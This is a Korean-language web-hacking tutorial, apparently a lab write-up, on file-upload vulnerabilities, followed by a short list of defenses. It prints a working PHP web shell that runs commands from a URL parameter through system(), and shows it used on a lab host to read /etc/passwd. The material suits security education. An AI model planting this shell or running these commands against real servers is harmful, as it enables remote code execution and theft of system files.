 # 파일 업로드 모의해킹
파일 업로드 모의해킹은 웹 사이트에서 파일을 업로드할 때, 업로드 된 파일이 악성 코드를 포함하고 있는지 확인하지 않아 발생하는 보안 취약점입니다.

## 공격 실습

![file_upload](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload.png)

공격에 사용될 웹쉘 파일을 업로드 합니다. 웹쉘(Web Shell)은 웹을 통해 원격에서 서버에 접근하여 명령어를 실행할 수 있는 프로그램입니다. 웹쉘은 서버의 취약점으로부터 공격자가 접근한 후, 웹상에서 명령어를 실행하고 서버를 제어할 수 있습니다.

다음은 웹쉘 코드(webshell.php)의 예시 입니다.
```php
<?php

echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';					

/*
	echo 부분은 명령어를 입력받을 수 있는 폼을 제공
    공격자가 입력 폼에 명령어를 입력하면 cmd 파라미터를 통해 전달된다.
*/

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
//system 함수를 통해 전달된 명령어가 실행된다.

?>
```

업로드된 파일의 다운로드 주소를 살펴보면 `http://192.168.219.180/upfiledata/webshell.php` 이와같이 설정되어있음을 알 수 있습니다.    
이 주소로 이동하면 다음과같이 명령어를 실행시킬 수 있는 웹쉘이 실행됨을 볼 수 있습니다.
<br><br>

![file_upload_webshell](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload_webshell.png)

위와같이 입력란에 `cat ../../../../../etc/passwd` 를 입력하여 passwd 파일을 탈취할 수 있습니다.

## 방어 방법
- 파일 확장자 제한 : 업로드 가능한 파일 확장자를 제한함으로써, 일반적인 파일 형식이 아닌 파일은 업로드가 불가능하도록 할 수 있습니다.
- 파일 크기 제한 : 업로드 가능한 파일의 최대 크기를 제한함으로써, 대용량 파일의 업로드를 방지할 수 있습니다.
- 파일 유형 검사 : 업로드된 파일을 검사하여, 악성 코드를 포함하고 있는지 여부를 판단하여 업로드를 차단하도록 할 수 있습니다.
- 파일 이름 변경 : 업로드된 파일의 이름을 무작위로 변경하여, 악성 코드가 실행되지 않도록 할 수 있습니다.

